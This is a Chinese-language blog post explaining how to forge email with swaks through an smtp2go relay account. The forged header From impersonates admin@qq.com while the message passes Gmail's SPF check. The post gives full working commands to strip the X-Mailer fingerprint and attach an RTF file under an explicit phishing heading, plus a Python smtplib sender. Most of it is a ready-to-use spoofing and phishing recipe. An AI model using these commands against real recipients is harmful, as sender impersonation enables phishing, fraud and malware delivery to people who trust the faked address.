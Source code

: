 ```yaml
---
categories: 高效
date: "2019-05-09T00:00:00Z"
description: 绕过一些邮件服务器的简单检测
title: Swaks伪造邮件
url: /archivers/2019-05-09/1
---
```


## 0x00 swaks

swaks - Swiss Army Knife SMTP, the all-purpose smtp transaction tester.

swaks堪称SMTP协议的瑞士军刀，使用它我们可以灵活的操作SMTP协议报文，这篇文章主要是记录一下我是如何伪造一封邮件绕过gmail的检测。

通常最简单的发送命令：

```bash
swaks --to user@example.com --server test-server.example.net
```

但是邮件头中会带上`X-Mailer`：

![2019-05-09-14-24-53](https://images.payloads.online/74cbdcfa-4f5f-11ec-9bc1-00d861bf4abb.png)


同时，SPF检测会FAIL。

## 0x01 smtp2go

这个是从evi1cg师傅那里看到的，smtp2go主要是相当于邮件托管，可以分发子账户进行发送。

地址：https://support.smtp2go.com/hc/en-gb

（邮箱注册）普通账户可以免费发1000封邮件。


分配好账户后，可以通过swaks进行登录发送邮件：

![2019-05-09-14-28-50](https://images.payloads.online/750c7a8a-4f5f-11ec-889d-00d861bf4abb.png)

## 0x02 swaks发送邮件

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

但是上面这个邮件无法绕过SPF。

## 0x03 SPF验证原理

如果mail.smtp2go.com是我的邮件服务器，那么gmail服务器收到的源IP也肯定是mail.smtp2go.com的IP。

gmail会校验邮件发送者的IP是否存在于smtp.from的域名spf配置列表里。

而上面这条命令：

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

smtp.from就是admin@qq.com，和mail.smtp2go.com的IP肯定不同，所以SPF校验失败，而校验失败的邮件，会有很高的几率被扔到垃圾邮件中。

默认情况下，如果未设置Mail.From也就是邮件头的From，则会使用smtp.from作为Mail.From。

![2019-05-09-14-38-39](https://images.payloads.online/7546e2d8-4f5f-11ec-8699-00d861bf4abb.png)


## 0x04 绕过SPF

由于邮件显示的是Header中的From不是smtp.from，因此可以将smtp.from设置为正常的邮件服务器地址，伪造一个Mail.From即可。

```bash
swaks --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS>
```

Gmail接收到这封邮件后，会校验`--from xx@smtp2go.com`中的smtp2go.com是否等于mail.smtp2go.com的IP，由于是相等的，所以完成了SPF的校验。

而DKIM是校验邮件完整性的，smtp2go与Gmail直接使用的是TLS，不会发生什么问题。


![2019-05-09-14-42-55](https://images.payloads.online/758edade-4f5f-11ec-947a-00d861bf4abb.png)

## 0x05 Header

swaks支持自定义某些Header，参数如下：

```bash
swaks --header-<Name> <Value>
```

如果我想去除Mailer特征，就可以这么做：

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> 
```

## 0x06 附件、钓鱼

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

定制发送：

```bash
swaks --data /tmp/mail.data --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

/tmp/mail.data中是原始的邮件报文。

## 0x07 Python也可以做

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

import smtplib
from email.mime.text import MIMEText
from email.header import Header

mail_host="mail.smtp2go.com"
mail_user=""
mail_pass=""


sender = 'test@smtp2go.com'
receivers = ['rvn0xsy@gmail.com']

message = MIMEText('Hello World', 'plain', 'utf-8')
message['From'] = Header("from@qq.com", 'utf-8')
message['To'] =  Header(receivers[0], 'utf-8')

subject = 'SMTP 邮件测试'
message['Subject'] = Header(subject, 'utf-8')


try:
    smtpObj = smtplib.SMTP()
    smtpObj.connect(mail_host, 25)
    smtpObj.login(mail_user,mail_pass)
    smtpObj.sendmail(sender, receivers, message.as_string())
    print "Success"
except smtplib.SMTPException:
    print "Error"
```